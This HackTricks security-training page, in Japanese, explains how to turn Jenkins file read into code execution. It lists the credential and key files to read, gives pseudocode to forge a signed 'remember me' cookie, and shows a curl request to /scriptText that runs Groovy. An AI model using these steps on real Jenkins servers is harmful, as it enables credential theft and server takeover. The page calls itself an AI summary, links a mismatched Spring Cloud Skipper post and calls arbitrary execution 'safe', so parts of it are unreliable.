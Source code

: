 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

このブログ記事では、Jenkinsのローカルファイルインクルージョン脆弱性をRCEに変換する素晴らしい方法を見つけることができます: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

これは、任意のクッキーを作成することがRCEを取得するために悪用される投稿の部分のAIによって作成された要約です。自分自身の要約を作成する時間ができるまでの間です。

### Attack Prerequisites

- **Feature Requirement:** "Remember me"が有効である必要があります（デフォルト設定）。
- **Access Levels:** 攻撃者はOverall/Read権限が必要です。
- **Secret Access:** 重要なファイルからバイナリおよびテキストコンテンツを読み取る能力。

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- 各ユーザーのために`$JENKINS_HOME/users/*.xml`からユーザー設定と秘密を取得して収集します:
- **Username**
- **User seed**
- **Timestamp**
- **Password hash**

**Secret Key Extraction**

- クッキーの署名に使用される暗号鍵を抽出します:
- **Secret Key:** `$JENKINS_HOME/secret.key`
- **Master Key:** `$JENKINS_HOME/secrets/master.key`
- **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **トークンの有効期限を計算:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // 現在の時間に1時間を追加
```

- **トークンのためのデータを連結:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **MACキーのファイルを復号化:**

```javascript
key = toAes128Key(masterKey)  // マスターキーをAES128キー形式に変換
decrypted = AES.decrypt(macFile, key)  // .macファイルを復号化
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **HMAC SHA256を計算:**

```javascript
mac = HmacSHA256(token, macKey) // トークンとMACキーを使用してHMACを計算
tokenSignature = bytesToHexString(mac) // MACを16進数文字列に変換
```

**Cookie Encoding**

- **最終的なクッキーを生成:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // クッキーのデータをBase64エンコード
```

#### Step 3: Code Execution

**Session Authentication**

- **CSRFおよびセッショントークンを取得:**
- `/crumbIssuer/api/json`にリクエストを送信して`Jenkins-Crumb`を取得します。
- 応答から`JSESSIONID`をキャプチャし、remember-meクッキーと一緒に使用します。

**Command Execution Request**

- **Groovyスクリプトを使用してPOSTリクエストを送信:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovyスクリプトは、システムレベルのコマンドやJenkins環境内の他の操作を実行するために使用できます。

提供されたcurlコマンドの例は、必要なヘッダーとクッキーを使用してJenkinsにリクエストを送信し、任意のコードを安全に実行する方法を示しています。

{{#include ../../banners/hacktricks-training.md}}
